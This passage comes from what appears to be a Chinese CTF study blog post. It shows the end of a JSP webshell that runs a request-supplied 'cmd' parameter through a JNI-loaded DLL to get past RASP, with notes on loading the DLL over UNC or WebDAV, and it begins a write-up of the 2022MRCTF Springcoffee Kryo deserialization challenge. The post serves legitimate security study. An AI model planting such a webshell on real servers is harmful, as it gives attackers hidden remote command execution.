 ```java
        public JniClass() {
            System.load("C:\\Users\\bmth\\Desktop\\作业\\CTF学习\\上传文件\\jsp\\jni\\1.dll");
        }
    }
%>
<%
    String cmd  = request.getParameter("cmd");
    if (cmd != null) {
        JniClass a = new JniClass();
        String res = a.exec(cmd);
        out.println(res);
    }
    else{
        response.sendError(404);
    }
%>
```
![](https://img-blog.csdnimg.cn/f94cc7a980f24e46937a0ca165db6088.png)

成功执行命令
**注：jsp文件名称需要同之前的java文件保持一致**

利用条件也比较苛刻，需要将dll文件和jsp文件都上传上去，最后使用jsp去调用该dll文件
或者使用unc路径，远程调用dll文件

>需要注意UNC 默认是走 445 端口的，如果没有特殊情况，公网上都是屏蔽了这个端口的
这里有一个小trick，就是利用 windows 一个特性，在开启了 webclient 服务的情况下，UNC 访问 445 失败时，会尝试访问目标服务器80端口的 webdav 去加载资源



参考：
[Java安全之JNI绕过RASP](https://www.cnblogs.com/nice0e3/p/14067160.html)
[JNI技术绕过rasp防护实现jsp webshell](https://cloud.tencent.com/developer/article/1541566)
[Java利用技巧——通过JNI加载dll](https://zhuanlan.zhihu.com/p/483289588)
[SCTF2019 babyEoP Writeup](https://jayl1n.github.io/2019/06/26/sctf-2019-babyEoP-Writeup/)


## 赛题复现

### [2022MRCTF]Springcoffee

题目源码：[https://github.com/EkiXu/My-CTF-Challenge/tree/main/springcoffee](https://github.com/EkiXu/My-CTF-Challenge/tree/main/springcoffee)

看到依赖，存在kryo 5.3.0，JSON-20220320，rome 1.7.0这三个重点，很明显是触发kryo反序列化的
![](https://img-blog.csdnimg.cn/1e39bb712aaf4c20899e7913a3b1c700.png)

可以看到其中`/coffee/order`是触发反序列化的地方
![](https://img-blog.csdnimg.cn/3419cf6231f84c11bfcabf567493d2af.png)

`/coffee/demo`可以根据我们前端传入的json执行对应的set方法做属性更改
![](https://img-blog.csdnimg.cn/53cfa6285c85499c83f3b9a4b0c46acf.png)
